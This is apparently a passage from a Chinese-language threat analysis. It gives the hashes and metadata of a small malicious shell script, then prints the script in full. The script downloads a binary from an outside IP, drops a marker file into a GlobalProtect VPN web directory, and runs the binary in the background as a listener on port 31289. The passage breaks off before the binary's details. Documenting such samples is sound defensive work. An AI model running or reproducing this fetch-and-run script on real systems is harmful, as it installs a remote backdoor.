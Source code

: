 <table><tbody style="appearance: none;outline: 0px;"><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">Name(s)</span></p></td><td width="468" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">policy(6)</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">Size</span></p></td><td width="468" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">189.0B (189 Bytes)</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">File Type</span></p></td><td width="468" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">text/x-shellscript</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">MD5</span></p></td><td width="468" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">724c8059c150b0f3d1e0f80370bcfe19</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">SHA1</span></p></td><td width="468" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">5592434c40a30ed2dfdba0a86832b5f2eaaa437c</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">SHA256</span></p></td><td width="468" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">e315907415eb8cfcf3b6a4cd6602b392a3fe8ee0f79a2d51a81a928dbce950f8</span></p></td></tr><tr style="appearance: none;outline: 0px;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">VirusTotal First Submitted</span></p></td><td width="468" style="appearance: none;padding: 0.5rem;vertical-align: top;outline: 0px;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">N/A</span></p></td></tr></tbody></table>```
#!/bin/bash
wget http://172.233.228[.]93/lowdp -O /tmp/lowdp
ls -l /tmp/lowdp > /var/appweb/sslvpndocs/global-protect/u.css
chmod +x /tmp/lowdp
nohup /tmp/lowdp -l -p 31289 > /dev/null 2>&1 &
```  
  
二进制文件的详细信息如下所示：      
  
```